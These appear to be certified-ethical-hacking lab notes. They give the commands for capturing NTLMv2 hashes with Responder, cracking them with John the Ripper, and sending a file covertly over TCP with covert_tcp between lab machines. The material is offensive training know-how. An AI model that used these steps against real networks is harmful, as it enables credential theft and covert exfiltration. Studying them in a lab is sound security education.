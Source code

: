  **Perform Active Online Attack to Crack the System's Password using Responder**


**Linux:**

cd
cd Responder
chmox +x ./Responder.py
sudo ./Responder.py -I eth0
passwd: ****

**Windows**

run
\CEH-Tools

**Linux:**

Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
sudo snap install john-the-ripper
passwd: ****
sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt

**Covert Channels using Covert_TCP**

**Attacker:**

cd Desktop
mkdir Send
cd Send
echo "Secret"->message.txt
Place->Network
Ctrl+L
smb://[IP]
Account & Password
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c

**Target:**

tcpdump -nvvx port 8888 -I lo
cd Desktop
mkdir Receive
cd Receive
File->Ctrl+L
smb://[IP]
copy and paste covert_tcp.c
cc -o covert_tcp covert_tcp.c
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
Tcpdump captures no packets

**Attacker**
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt
Wireshark (message string being send in individual packet)
